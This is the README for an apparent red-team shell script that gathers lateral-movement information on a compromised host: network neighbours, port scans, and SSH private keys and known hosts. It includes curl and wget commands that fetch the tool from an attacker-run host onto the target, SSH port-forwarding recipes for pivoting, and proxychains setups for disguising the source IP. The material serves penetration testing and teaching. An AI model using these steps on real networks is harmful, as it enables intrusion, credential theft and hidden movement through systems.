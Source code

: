 # Lateral Movement Phase

Lateral Movement is about the ability to move around the network. It is possible that the actual target cannot be reached from or on the initially compromised host. In this case, access must be gained to one or more remote systems. To do this, the network must be explored. Similar to Internal Reconnaissance, information is gathered here, but about the current network and surrounding systems.

This script serves as a tool for receiving some information that may be important for Lateral Movement.

## Features

- Get network neighbours (from arp table)
- Get reachable IP addresses
- Port scan of a given IP address
- Get SSH information about private keys and known hosts

## Usage

From github:
```sh
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/lateral-movement/lateral-movement.sh
sh lateral-movement.sh -h
```
Local network:
```sh
# Host
sh lateral-movement.sh -w
# Target
curl -LJO <Host>:8000/lateral-movement.sh #or
curl <Host>:8000/lateral-movement.sh > lateral-movement.sh #or
wget <Host>:8000/lateral-movement.sh
sh lateral-movement.sh -h
```

### Parameters

```
sh lateral-movement.sh -h

Usage: lateral-movement.sh [options]

Options:
-h               Show this help message
-p <IP address>  Do a port scan of the given IP address

-w               Serves a local web server for transferring files

Output:
-c               No colours. Without colours, the output can probably be read better
-q               Quiet. No banner and no advisory displayed
```

## Results

Results saved to files in current directory and printed to stdout.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems.

-----

## Additional Information

### Pivoting and Proxychains

Pivoting can be described as a method or technique that allows an already compromised system (also called a "plant" or "foothold") to be used to move into other systems on the same network. This can be used to bypass restrictions on a network (a firewall, for example).

#### Pivoting with SSH

Local forwarding: make a port of the target locally reachable:
````sh
ssh -L <local port>:<remote host>:<remote port> [<jumphost>]
````
Remote forwarding: Make a local port externally accessible:
````sh
ssh -R <remote port>:<localhost>:<local port> [<jumphost>]
````
Dynamic forwarding: Make all ports of the target locally accessible as SOCKS proxy:
````sh
ssh -D <local port> <jump host>
````

#### ProxyChains

Proxychains is a tool that forces any TCP connection of any application through one or more proxy servers (for example SOCKS4/5 or HTTP(S) proxy).  
With proxychains and port forwarding, it is possible to forward a connection through device B to device C.

````sh
# syntax:
proxychains <application> <argument>

# example:
proxychains nmap -sS 10.0.2.16 -p 80
````
The nmap scan is routed through the proxy servers defined in the configuration file.

ProxyChains configuration file: /etc/proxychains.conf
````sh
# syntax:
<typ> <IP> <port> <user> <password>
# examples:
socks4 127.0.0.1 9000
socks5 192.168.89.45 4567 user pass
````

Thus it is possible to disguise the source IP, as the destination will only receive the IP of the last proxy as source.
